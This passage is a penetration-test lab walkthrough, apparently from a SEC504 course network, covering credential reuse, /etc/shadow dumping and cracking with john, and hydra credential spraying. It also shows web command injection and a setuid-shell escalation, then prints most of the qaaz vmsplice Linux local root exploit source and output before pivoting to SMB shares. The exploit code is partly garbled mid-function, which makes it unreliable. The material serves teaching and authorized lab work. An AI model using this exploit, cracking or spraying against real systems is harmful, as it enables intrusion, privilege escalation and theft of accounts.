Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.45' (RSA) to the list of known hosts.
falken@10.10.10.45's password: 
Last login: Tue Oct  1 11:56:13 2019 from 10.10.76.1
[root@fred ~]# uname -a
Linux fred 2.6.26.8-57.fc8 #1 SMP Thu Dec 18 19:19:45 EST 2008 i686 i686 i386 GNU/Linux
[root@fred ~]# id
uid=0(root) gid=503(falken) groups=503(falken)
[root@fred ~]# cat /etc/issue
Fedora release 8 (Werewolf)
Kernel \r on an \m

[root@fred ~]# ls
[root@fred ~]# ls /
bin  boot  dev	etc  flag4.txt	home  lib  lost+found  media  misc  mnt  net  opt  proc  root  sbin  selinux  srv  sys	tmp  usr  var
[root@fred ~]# cat /flag4.txt
second half of password = secret
[root@fred ~]# 
</pre>

After logging in I ran some basic recon commands to identify my current privilege level (root), the the version and release of Linux on this host. The `flag4.txt` file is found in `/flag4.txt`.

Since we have root access on this system, we should also dump and crack passwords:

<pre>
[root@fred ~]# cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/etc/news:
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
distcache:x:94:94:Distcache:/:/sbin/nologin
nscd:x:28:28:NSCD Daemon:/:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
rpm:x:37:37:RPM user:/var/lib/rpm:/sbin/nologin
pulse:x:499:497:PulseAudio daemon:/:/sbin/nologin
polkituser:x:87:87:PolicyKit:/:/sbin/nologin
apache:x:48:48:Apache:/var/www:/sbin/nologin
avahi:x:498:494:avahi-daemon:/var/run/avahi-daemon:/sbin/nologin
openvpn:x:497:493:OpenVPN:/etc/openvpn:/sbin/nologin
mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin
smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
ntp:x:38:38::/etc/ntp:/sbin/nologin
named:x:25:25:Named:/var/named:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
webalizer:x:67:67:Webalizer:/var/www/usage:/sbin/nologin
squid:x:23:23::/var/spool/squid:/sbin/nologin
torrent:x:496:491:BitTorrent Seed/Tracker:/var/spool/bittorrent:/sbin/nologin
backuppc:x:495:490::/var/lib/BackupPC:/usr/bin/nologin
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
gdm:x:42:42::/var/gdm:/sbin/nologin
susan:x:500:500::/home/susan:/bin/bash
bob:x:501:501::/home/bob:/bin/bash
mike:x:502:502::/home/mike:/bin/bash
falken:x:0:503::/home/falken:/bin/bash
[root@fred ~]# cat /etc/shadow
root:$1$QZpRLjQe$whBhSlzpWaS8H461009nR/:14194:0:99999:7:::
bin:*:14194:0:99999:7:::
daemon:*:14194:0:99999:7:::
adm:*:14194:0:99999:7:::
lp:*:14194:0:99999:7:::
sync:*:14194:0:99999:7:::
shutdown:*:14194:0:99999:7:::
halt:*:14194:0:99999:7:::
mail:*:14194:0:99999:7:::
news:*:14194:0:99999:7:::
uucp:*:14194:0:99999:7:::
operator:*:14194:0:99999:7:::
games:*:14194:0:99999:7:::
gopher:*:14194:0:99999:7:::
ftp:*:14194:0:99999:7:::
nobody:*:14194:0:99999:7:::
vcsa:!!:14194:0:99999:7:::
rpc:!!:14194:0:99999:7:::
distcache:!!:14194:0:99999:7:::
nscd:!!:14194:0:99999:7:::
tcpdump:!!:14194:0:99999:7:::
dbus:!!:14194:0:99999:7:::
rpm:!!:14194:0:99999:7:::
pulse:!!:14194:0:99999:7:::
polkituser:!!:14194:0:99999:7:::
apache:!!:14194:0:99999:7:::
avahi:!!:14194:0:99999:7:::
openvpn:!!:14194:0:99999:7:::
mailnull:!!:14194:0:99999:7:::
smmsp:!!:14194:0:99999:7:::
rpcuser:!!:14194:0:99999:7:::
nfsnobody:!!:14194:0:99999:7:::
ntp:!!:14194:0:99999:7:::
named:!!:14194:0:99999:7:::
sshd:!!:14194:0:99999:7:::
webalizer:!!:14194:0:99999:7:::
squid:!!:14194:0:99999:7:::
torrent:!!:14194:0:99999:7:::
backuppc:!!:14194:0:99999:7:::
haldaemon:!!:14194:0:99999:7:::
gdm:!!:14194:0:99999:7:::
susan:$1$FELdTs5z$xIw5Y4dbTNWGrZKkc2k8j/:14194:0:99999:7:::
bob:$1$sL29tDS7$OpY5sTjrvxqueH8ZT2Qfa1:14194:0:99999:7:::
mike:$1$sYC.qj62$C0B6DORf.XugmQ09dQkQD1:14194:0:99999:7:::
falken:$1$8kgBlF2S$1nQ0aDcpvJL0Xdjn8zP2y/:14194:0:99999:7:::
</pre>

Copy those files to your local Slingshot host. Open a new terminal window, then copy using `scp`:

<pre>
sec504@slingshot:~$ mkdir 10.10.10.45
sec504@slingshot:~$ cd 10.10.10.45/
sec504@slingshot:~/10.10.10.45$ scp falken@10.10.10.45:/etc/passwd .
falken@10.10.10.45's password: 
passwd                                                                                                      100% 2070     2.0KB/s   00:00    
sec504@slingshot:~/10.10.10.45$ scp falken@10.10.10.45:/etc/shadow .
falken@10.10.10.45's password: 
shadow                                                                                                      100% 1421     1.4KB/s   00:00    
sec504@slingshot:~/10.10.10.45$ unshadow passwd shadow &gt;10.10.10.45.hash
sec504@slingshot:~/10.10.10.45$ john 10.10.10.45.hash 
Warning: detected hash type "md5crypt", but the string is also recognized as "aix-smd5"
Use the "--format=aix-smd5" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (md5crypt, crypt(3) $1$ [MD5 128/128 SSE2 4x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
joshua           (falken)
nuggetnugget     (bob)
2g 0:00:03:01  3/3 0.01104g/s 9625p/s 28927c/s 28927C/s bizu1!..biz1ty
2g 0:00:03:02  3/3 0.01093g/s 9626p/s 28928c/s 28928C/s cessy!..cestoe
Use the "--show" option to display all of the cracked passwords reliably
Session aborted
</pre>

Here I copied the `/etc/passwd` and `/etc/shadow` files to my Slingshot Linux system using `scp`, then merged the files with `unshadow` and cracked with `john`. After a few minutes I stopped the cracking process, having recovered a single additional account: **bob**.

##### Exploit 10.10.10.45 Notes

+ falken/joshua grants SSH access, local root access
+ Cracking the `/etc/shadow` file reveals _bob_'s password

| IP Address | Hostname | OS | Ports Open | Ports Filtered | Notes |
| --- | --- | --- | --- | --- | --- |
| 10.10.10.9 | BETTY | Windows 2003 3790 SP2/ 5.2 | 80, 135, 139, 445, 1025, 5800 | | SMB Exposed is VBAD |
| 10.10.10.15 | WILMA | Windows? | 80, 49152-49157 | 135, 139, 445 | |
| 10.10.10.35 | BARNEY | Linux/Fedora | 22, 23, 80, 111, 443, 513, 514 | |
| 10.10.10.45 | FRED | Linux/Fedora | 21, 22, 53, 80, 111, 443, 513, 514 | | |

| Username | Password | Host     | Confirmed? |
| -------- | -------- | ----     | ---------- |
| falken   | joshua   | BETTY    | yes        |
| peaches  | peaches1 | BETTY    | yes        |
| mike     | poor     | BETTY    | yes        |
| paul     | dirt33   | BETTY    | yes        |
| susan    | ??????   | BETTY    | no         |
| admin    | ??????   | BETTY    | no         |
| Administrator | ??????   | BETTY    | no         |
| SUPPORT_388945a0 | ??????   | BETTY    | no         |
| IUSR_WILMA | ??????   | BETTY    | no         |
| IWAM_WILMA  | ??????   | BETTY    | no         |
| falken | joshua | FRED | yes |
| bob | nuggetnugget | FRED | yes |

#### Exploit 10.10.10.35

Reuse credentials again against 10.10.10.35:

<pre>
sec504@slingshot:~$ hydra -l falken -p joshua ssh://10.10.10.35
Hydra v8.1 (c) 2014 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2019-10-03 14:51:27
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 1 task per 1 server, overall 64 tasks, 1 login try (l:1/p:1), ~0 tries per task
[DATA] attacking service ssh on port 22
1 of 1 target completed, 0 valid passwords found
Hydra (http://www.thc.org/thc-hydra) finished at 2019-10-03 14:51:30
sec504@slingshot:~$ hydra -l peaches -p peaches1 ssh://10.10.10.35
Hydra v8.1 (c) 2014 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2019-10-03 14:52:09
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 1 task per 1 server, overall 64 tasks, 1 login try (l:1/p:1), ~0 tries per task
[DATA] attacking service ssh on port 22
1 of 1 target completed, 0 valid passwords found
Hydra (http://www.thc.org/thc-hydra) finished at 2019-10-03 14:52:12
sec504@slingshot:~$ hydra -l mike -p poor ssh://10.10.10.35
Hydra v8.1 (c) 2014 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2019-10-03 14:52:47
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 1 task per 1 server, overall 64 tasks, 1 login try (l:1/p:1), ~0 tries per task
[DATA] attacking service ssh on port 22
1 of 1 target completed, 0 valid passwords found
Hydra (http://www.thc.org/thc-hydra) finished at 2019-10-03 14:52:51
sec504@slingshot:~$ hydra -l paul -p dirt33 ssh://10.10.10.35
Hydra v8.1 (c) 2014 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2019-10-03 14:53:05
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 1 task per 1 server, overall 64 tasks, 1 login try (l:1/p:1), ~0 tries per task
[DATA] attacking service ssh on port 22
1 of 1 target completed, 0 valid passwords found
Hydra (http://www.thc.org/thc-hydra) finished at 2019-10-03 14:53:09
sec504@slingshot:~$ hydra -l bob -p nuggetnugget ssh://10.10.10.35
Hydra v8.1 (c) 2014 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2019-10-03 14:53:21
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 1 task per 1 server, overall 64 tasks, 1 login try (l:1/p:1), ~0 tries per task
[DATA] attacking service ssh on port 22
[22][ssh] host: 10.10.10.35   login: bob   password: nuggetnugget
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2019-10-03 14:53:22
sec504@slingshot:~$ ssh bob@10.10.10.35
The authenticity of host '10.10.10.35 (10.10.10.35)' can't be established.
RSA key fingerprint is SHA256:dGdfRVykLK0nhG5fIDDb9SV7d5tt/3zEk3SkwBOzMzQ.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.35' (RSA) to the list of known hosts.
bob@10.10.10.35's password: 
[bob@barney ~]$ id
uid=501(bob) gid=501(bob) groups=501(bob)
[bob@barney ~]$ uname -a
Linux barney 2.6.23.1-42.fc8 #1 SMP Tue Oct 30 13:55:12 EDT 2007 i686 i686 i386 GNU/Linux
[bob@barney ~]$ cat /etc/issue
Fedora release 8 (Werewolf)
Kernel \r on an \m

[bob@barney ~]$ 
</pre>

Here we see the user _bob_ has access to this server, while the formerly favorite user account _falken_ does not. We can look around the file system:

<pre>
[bob@barney ~]$ ls 
[bob@barney ~]$ ls /
bin  boot  dev	etc  flag3.txt	home  lib  lost+found  media  misc  mnt  net  opt  proc  root  sbin  selinux  srv  sys	tmp  usr  var
[bob@barney ~]$ cat /flag3.txt 
cat: /flag3.txt: Permission denied
[bob@barney ~]$ ls -l /flag3.txt 
-r-------- 1 root root 32 2008-11-11 05:57 /flag3.txt
</pre>

We can't access the flag because it is only accessible to _root_. We need a privilege escalation opportunity. We can search for SETUID root files:

<pre>
[bob@barney ~]$ find / -uid 0 -perm -4000 -print 2&gt;/dev/null
/usr/sbin/userhelper
/usr/sbin/mgnokiidev
/usr/sbin/suexec
/usr/sbin/ccreds_validate
/usr/sbin/usernetctl
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/squid/pam_auth
/usr/lib/squid/ncsa_auth
/usr/kerberos/bin/ksu
/usr/bin/chage
/usr/bin/rcp
/usr/bin/rsh
/usr/bin/newgrp
/usr/bin/rlogin
/usr/bin/passwd
/usr/bin/Xorg
/usr/bin/sudoedit
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/pulseaudio
/usr/bin/chsh
/usr/bin/crontab
/usr/bin/sperl5.8.8
/usr/libexec/polkit-grant-helper-pam
/usr/libexec/openssh/ssh-keysign
/sbin/mount.nfs
/sbin/unix_chkpwd
/sbin/pam_timestamp_check
/lib/dbus-1/dbus-daemon-launch-helper
/bin/mount
/bin/umount
/bin/ping
/bin/ping6
/bin/fusermount
/bin/su
</pre>

This analysis is difficult because you would then investigate each of these binaries as a potential privilege escalation option. Normally the stuff I would focus on is non-standard setuid binaries; this requires a comparison against a local install of the same platform, which is a time-consuming task. Let's look at other opportunities for privilege escalation on the system.

If you poke around the file system a bit, you'll find the web server files in `/var/www/html`:

<pre>
[bob@barney ~]$ cd /var/www
[bob@barney www]$ ls
cgi-bin  error	html  icons  manual  usage
[bob@barney www]$ cd
[bob@barney ~]$ cd /var/www/html
[bob@barney html]$ ls 
adminfun.php  cookie.inc.php  exportregs  index.php  specialpage.php  target_logo.jpg
[bob@barney html]$ cat specialpage.php 
cat: specialpage.php: Permission denied
[bob@barney html]$ ls -l
total 96
-rwxr-x--- 1 apache apache  1320 2008-11-11 05:56 adminfun.php
-rwxr-x--- 1 apache apache   671 2008-11-11 05:56 cookie.inc.php
-rwxr-x--- 1 apache apache 11933 2008-11-11 05:56 exportregs
-rwxr-x--- 1 apache apache  2097 2008-11-11 05:56 index.php
-rwxr-x--- 1 apache apache  7258 2008-11-11 05:56 specialpage.php
-rwxr-x--- 1 apache apache 60814 2008-11-11 05:56 target_logo.jpg
</pre>

The `specialpage.php` file looks interesting, but isn't accessible to us, only to root and the _apache_ user. However, the web server also runs as apache, so any vulnerability on the web server page for command injection could also be used for privilege escalation.

Browsing to the 10.10.10.35 web server, we see the following page where we can enter a search term:

The search results show us rate information. I'll try injecting a single-quote character to look for error-based SQL injection opportunities:

This did not return a SQL error message. Maybe command injection using a semi-colon delimiter:

Thus appears to have worked, noting the file name `adminfun.php` is returned. From here, make a local shell in `/tmp` from `/tmp/zsh` (`bash` has defenses against this attack, so we pick a different available shell), making it SETUID apache.

Run the shell:

<pre>
[bob@barney html]$ ls -l /bin/zsh
-rwxr-xr-x 1 root root 539592 2007-10-11 10:16 /bin/zsh
[bob@barney html]$ ls -l /tmp/zsh
-rwsr-sr-x 1 apache apache 539592 2019-10-03 11:27 /tmp/zsh
[bob@barney html]$ /tmp/zsh
[bob@barney]/var/www/html% id
uid=501(bob) gid=501(bob) euid=48(apache) egid=48(apache) groups=501(bob)
[bob@barney]/var/www/html% 
</pre>

Now that we have privilege escalated to the apache user, we can examine the source of the files in the `/var/www/html` directory:

<pre>
[bob@barney]/var/www/html% cat specialpage.php 
&lt;?php
require("cookie.inc.php");
//fix loopback redirect condition
if ($user != 42)
{
	header("Location: index.php");
	die();
}
?&gt;
&lt;html&gt;<head><title>Target Widgets - Special Page</title></head>
&lt;body bgcolor="white"&gt;
&lt;h1&gt;Target Widgets - Special Page</h1>

Hey...you're the administrator!  I guess you forgot your root password again,
huh?  Well, that's okay!  Just use the km3 exploit (provided below) to get back in! (c:=
&lt;p&gt;

&lt;textarea rows="15" cols="70"&gt;
/*
 * jessica_biel_naked_in_my_bed.c
 *
 * Dovalim z knajpy a cumim ze Wojta zas nema co robit, kura.
 * Gizdi, tutaj mate cosyk na hrani, kym aj totok vykeca.
 * Stejnak je to stare jak cyp a aj jakesyk rozbite.
 *
 * Linux vmsplice Local Root Exploit
 * By qaaz
 *
 * Linux 2.6.17 - 2.6.24.1
 *
 * This is quite old code and I had to rewrite it to even compile.
 * It should work well, but I don't remeber original intent of all
 * the code, so I'm not 100% sure about it. You've been warned ;)
 * 
 * -static -Wno-format  
 */
#define _GNU_SOURCE
#include &lt;stdio.h&gt;
#include &lt;errno.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;string.h&gt;
#include &lt;malloc.h&gt;
#include &lt;limits.h&gt;
#include &lt;signal.h&gt;
#include &lt;unistd.h&gt;
#include &lt;sys/uio.h&gt;
#include &lt;sys/mman.h&gt;
#include &lt;asm/page.h&gt;
#define __KERNEL__
#include &lt;asm/unistd.h&gt;

#define PIPE_BUFFERS	16
... trimmed for space
</pre>

This is a HTML-formatted exploit for vmsplice, a local root privilege escalation attack against Linux systems. To avoid decoding it, display the contents of the file using the web server RCE vulnerability:

Copy and paste the exploit code into a file name ending in `.c`:

<pre>
[bob@barney]/var/www/html% exit
[bob@barney html]$ cd /tmp
[bob@barney tmp]$ cat >vmsplice.c
/*
 * jessica_biel_naked_in_my_bed.c
 *
 * Dovalim z knajpy a cumim ze Wojta zas nema co robit, kura.
 * Gizdi, tutaj mate cosyk na hrani, kym aj totok vykeca.
 * Stejnak je to stare jak cyp a aj jakesyk rozbite.
 *
 * Linux vmsplice Local Root Exploit
 * By qaaz
 *
 * Linux 2.6.17 - 2.6.24.1
 *
 * This is quite old code and I had to rewrite it to even compile.
 * It should work well, but I don't remeber original intent of all
 * the code, so I'm not 100% sure about it. You've been warned ;)
 * 
 * -static -Wno-format  
 */
#define _GNU_SOURCE
#include &lt;stdio.h&gt;
#include &lt;errno.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;string.h&gt;
#include &lt;malloc.h&gt;
#include &lt;limits.h&gt;
#include &lt;signal.h&gt;
#include &lt;unistd.h&gt;
#include &lt;sys/uio.h&gt;
#include &lt;sys/mman.h&gt;
#include &lt;asm/page.h&gt;
#define __KERNEL__
#include &lt;asm/unistd.h&gt;

#define PIPE_BUFFERS	16
#define PG_compound	14
#define uint		unsigned int
#define static_inline	static inline __attribute__((always_inline))
#define STACK(x)	(x + sizeof(x) - 40)

struct page {
	unsigned long flags;
	int count;
	int mapcount;
	unsigned long private;
	void *mapping;
	unsigned long index;
	struct { long next, prev; } lru;
};

void	exit_code();
char	exit_stack[1024 * 1024];

void	die(char *msg, int err)
{
	printf(err ? "[-] %s: %s\n" : "[-] %s\n", msg, strerror(err));
	fflush(stdout);
	fflush(stderr);
	exit(1);
}

#if defined (__i386__)

#ifndef __NR_vmsplice
#define __NR_vmsplice	316
#endif

#define USER_CS		0x73
#define USER_SS		0x7b
#define USER_FL		0x246

static_inline
void	exit_kernel()
{
	__asm__ __volatile__ (
	"movl %0, 0x10(%%esp) ;"
	"movl %1, 0x0c(%%esp) ;"
	"movl %2, 0x08(%%esp) ;"
	"movl %3, 0x04(%%esp) ;"
	"movl %4, 0x00(%%esp) ;"
	"iret"
	: : "i" (USER_SS), "r" (STACK(exit_stack)), "i" (USER_FL),
	    "i" (USER_CS), "r" (exit_code)
	);
}

static_inline
void *	get_current()
{
	unsigned long curr;
	__asm__ __volatile__ (
	"movl %%esp, %%eax ;"
	"andl %1, %%eax ;"
	"movl (%%eax), %0"
	: "=r" (curr)
	: "i" (~8191)
	);
	return (void *) curr;
}

#elif defined (__x86_64__)

#ifndef __NR_vmsplice
#define __NR_vmsplice	278
#endif

#define USER_CS		0x23
#define USER_SS		0x2b
#define USER_FL		0x246

static_inline
void	exit_kernel()
{
	__asm__ __volatile__ (
	"swapgs ;"
	"movq %0, 0x20(%%rsp) ;"
	"movq %1, 0x18(%%rsp) ;"
	"movq %2, 0x10(%%rsp) ;"
	"movq %3, 0x08(%%rsp) ;"
	"movq %4, 0x00(%%rsp) ;"
	"iretq"
	: : "i" (USER_SS), "r" (STACK(exit_stack)), "i" (USER_FL),
	    "i" (USER_CS), "r" (exit_code)
	);
}

static_inline
void *	get_current()
{
	unsigned long curr;
	__asm__ __volatile__ (
	"movq %%gs:(0), %0"
	: "=r" (curr)
	);
	return (void *) curr;
}

#else
#error "unsupported arch"
#endif

#if defined (_syscall4)
#define __NR__vmsplice	__NR_vmsplice
_syscall4(
	long, _vmsplice,
	int, fd,
	struct iovec *, iov,
	unsigned long, nr_segs,
	unsigned int, flags)

#else
#define _vmsplice(fd,io,nr,fl)	syscall(__NR_vmsplice, (fd), (io), (nr), (fl))
#endif

static uint uid, gid;

void	kernel_code()
{
	int	i;
	uint	*p = get_current();

	for (i = 0; i < 1024-13; i++) {
		if (p[0] == uid && p[1] == uid &&
		    p[2] == uid && p[3] == uid &&
		    p[4] == gid && p[5] == gid &&
		    p[6] == gid && p[7] == gid) {
			p[0] = p[1] = p[2] = p[3] = 0;
			p[4] = p[5] = p[6] = p[7] = 0;
			p = (uint *) ((char *)(p + 8) + sizeof(void *));
			p[0] = p[1] = p[2] = ~0;
			break;
		}
		p++;
	}	

	exit_kernel();
}

void	exit_code()
{
	if (getuid() != 0)
		die("wtf", 0);

	printf("[+] root\n");
	putenv("HISTFILE=/dev/null");
	execl("/bin/bash", "bash", "-i", NULL);
	die("/bin/bash", errno);
}

int	main(int argc, char *argv[])
{
	int		pi[2];
	size_t		map_size;
	char *		map_addr;
	struct iovec	iov;
	struct page *	pages[5];

	uid = getuid();
	gid = getgid();
	setresuid(uid, uid, uid);
	setresgid(gid, gid, gid);

	printf("-----------------------------------\n");
	printf(" Linux vmsplice Local Root Exploit\n");
	printf(" By qaaz\n");
 = mmap(pages[0], map_size, PROT_READ | PROT_WRITE,
	                MAP_FIXED | MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
	if (map_addr == MAP_FAILED)
		die("mmap", errno);

	memset(map_addr, 0, map_size);
	printf("[+] mmap: 0x%lx .. 0x%lx\n", map_addr, map_addr + map_size);
	printf("[+] page: 0x%lx\n", pages[0]);
	printf("[+] page: 0x%lx\n", pages[1]);

	pages[0]-&gt;flags    = 1 << PG_compound;
	pages[0]-&gt;private  = (unsigned long) pages[0];
	pages[0]-&gt;count    = 1;
	pages[1]-&gt;lru.next = (long) kernel_code;

	/*****/
	pages[2] = *(void **) pages[0];
	pages[3] = pages[2] + 1;

	map_size = PAGE_SIZE;
	map_addr = mmap(pages[2], map_size, PROT_READ | PROT_WRITE,
	                MAP_FIXED | MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
	if (map_addr == MAP_FAILED)
		die("mmap", errno);

	memset(map_addr, 0, map_size);
	printf("[+] mmap: 0x%lx .. 0x%lx\n", map_addr, map_addr + map_size);
	printf("[+] page: 0x%lx\n", pages[2]);
	printf("[+] page: 0x%lx\n", pages[3]);

	pages[2]-&gt;flags    = 1 << PG_compound;
	pages[2]-&gt;private  = (unsigned long) pages[2];
	pages[2]-&gt;count    = 1;
	pages[3]-&gt;lru.next = (long) kernel_code;

	/*****/
	pages[4] = *(void **) &(int[2]){PAGE_SIZE,0};
	map_size = PAGE_SIZE;
	map_addr = mmap(pages[4], map_size, PROT_READ | PROT_WRITE,
	                MAP_FIXED | MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
	if (map_addr == MAP_FAILED)
		die("mmap", errno);
	memset(map_addr, 0, map_size);
	printf("[+] mmap: 0x%lx .. 0x%lx\n", map_addr, map_addr + map_size);
	printf("[+] page: 0x%lx\n", pages[4]);

	/*****/
	map_size = (PIPE_BUFFERS * 3 + 2) * PAGE_SIZE;
	map_addr = mmap(NULL, map_size, PROT_READ | PROT_WRITE,
	                MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
	if (map_addr == MAP_FAILED)
		die("mmap", errno);

	memset(map_addr, 0, map_size);
	printf("[+] mmap: 0x%lx .. 0x%lx\n", map_addr, map_addr + map_size);

	/*****/
	map_size -= 2 * PAGE_SIZE;
	if (munmap(map_addr + map_size, PAGE_SIZE) < 0)
		die("munmap", errno);

	/*****/
	if (pipe(pi) < 0) die("pipe", errno);
	close(pi[0]);

	iov.iov_base = map_addr;
	iov.iov_len  = ULONG_MAX;

	signal(SIGPIPE, exit_code);
	_vmsplice(pi[1], &iov, 1, 0);
	die("vmsplice", errno);
	return 0;
}

// milw0rm.com [2008-02-09]
[bob@barney tmp]$
</pre>

Compile and run the exploit. It make take several runs of the exploit to make it work:

<pre>
[bob@barney tmp]$ ./vmsplice 
-----------------------------------
 Linux vmsplice Local Root Exploit
 By qaaz
-----------------------------------
[+] mmap: 0x0 .. 0x1000
[+] page: 0x0
[+] page: 0x20
[+] mmap: 0x4000 .. 0x5000
[+] page: 0x4000
[+] page: 0x4020
[+] mmap: 0x1000 .. 0x2000
[+] page: 0x1000
[+] mmap: 0xb7f69000 .. 0xb7f9b000
[-] wtf
[bob@barney tmp]$ ./vmsplice 
-----------------------------------
 Linux vmsplice Local Root Exploit
 By qaaz
-----------------------------------
[+] mmap: 0x0 .. 0x1000
[+] page: 0x0
[+] page: 0x20
[+] mmap: 0x4000 .. 0x5000
[+] page: 0x4000
[+] page: 0x4020
[+] mmap: 0x1000 .. 0x2000
[+] page: 0x1000
[+] mmap: 0xb7f58000 .. 0xb7f8a000
[+] root
[root@barney tmp]# 
</pre>

Once you have root access, cat the flag:

<pre>
[root@barney tmp]# cat /flag3.txt 
first half of password = sooper
</pre>

##### Exploit 10.10.10.35 Notes

+ bob/nuggetnugger grants SSH access, non-root
+ Web app has command injection vuln, run any command as apache
+ Platform vulnerable to vmsplice privesc to root

| IP Address | Hostname | OS | Ports Open | Ports Filtered | Notes |
| --- | --- | --- | --- | --- | --- |
| 10.10.10.9 | BETTY | Windows 2003 3790 SP2/ 5.2 | 80, 135, 139, 445, 1025, 5800 | | SMB Exposed is VBAD |
| 10.10.10.15 | WILMA | Windows? | 80, 49152-49157 | 135, 139, 445 | |
| 10.10.10.35 | BARNEY | Linux/Fedora | 22, 23, 80, 111, 443, 513, 514 | |
| 10.10.10.45 | FRED | Linux/Fedora | 21, 22, 53, 80, 111, 443, 513, 514 | | |

| Username | Password | Host     | Confirmed? |
| -------- | -------- | ----     | ---------- |
| falken   | joshua   | BETTY    | yes        |
| peaches  | peaches1 | BETTY    | yes        |
| mike     | poor     | BETTY    | yes        |
| paul     | dirt33   | BETTY    | yes        |
| susan    | ??????   | BETTY    | no         |
| admin    | ??????   | BETTY    | no         |
| Administrator | ??????   | BETTY    | no         |
| SUPPORT_388945a0 | ??????   | BETTY    | no         |
| IUSR_WILMA | ??????   | BETTY    | no         |
| IWAM_WILMA  | ??????   | BETTY    | no         |
| falken | joshua | FRED | yes |
| bob | nuggetnugget | FRED | yes |
| bob | nuggetnugget | BARNEY | yes |

#### Exploit 10.10.10.15

The last system we haven't yet conquered is 10.10.10.15/WILMA. From Slingshot, the SMB servers are inaccessible:

<pre>
sec504@slingshot:~$ nc -w 3 -vvv 10.10.10.15 80
10.10.10.15: inverse host lookup failed: Unknown host
(UNKNOWN) [10.10.10.15] 80 (http) open
^C sent 0, rcvd 0
sec504@slingshot:~$ nc -w 3 -vvv 10.10.10.15 445
10.10.10.15: inverse host lookup failed: Unknown host
(UNKNOWN) [10.10.10.15] 445 (microsoft-ds) : Connection timed out
 sent 0, rcvd 0
</pre>

However, the hosts at 10.10.10.35 and 10.10.10.45 can access 10.10.10.15:

<pre>
[bob@fred ~]$ nc -vvv -w 3 10.10.10.15 445
wilma.target.tgt [10.10.10.15] 445 (microsoft-ds) open
^C sent 0, rcvd 0
</pre>

Use `smbclient` on 10.10.10.45 to enumerate shares on 10.10.10.15:

<pre>
[bob@fred ~]$ smbclient -L 10.10.10.15 -U bob
Password: 
Domain=[WILMA] OS=[Windows Server 2008 R2 Standard 7600] Server=[Windows Server 2008 R2 Standard 6.1]

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C               Disk      
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
</pre>

We know `C$` is only accessible to an admin, but `C` looks like a good alternative to try and gain access to. Try to connect to it using `smbclient` again, trying different user accounts:

<pre>
[bob@fred ~]$ smbclient -U falken //10.10.10.15/c
Password: 
session setup failed: NT_STATUS_LOGON_FAILURE
</pre>

Failed. Try with _bob_:

<pre>
[bob@fred ~]$ smbclient -U bob //10.10.10.15/c
Password: 
Domain=[WILMA] OS=[Windows Server 2008 R2 Standard 7600] Server=[Windows Server 2008 R2 Standard 6.1]
smb: \&gt; dir
NT_STATUS_ACCESS_DENIED listing \*

		48947 blocks of size 524288. 26614 blocks available
smb: \&gt; 
</pre>

Closer, but still no. Bob lacks file system permissions, but he can access the share.

Try other user account, eventually getting to `susan` with the password `passwor8`:

<pre>
[bob@fred ~]$ smbclient -U susan //10.10.10.15/c
Password: 
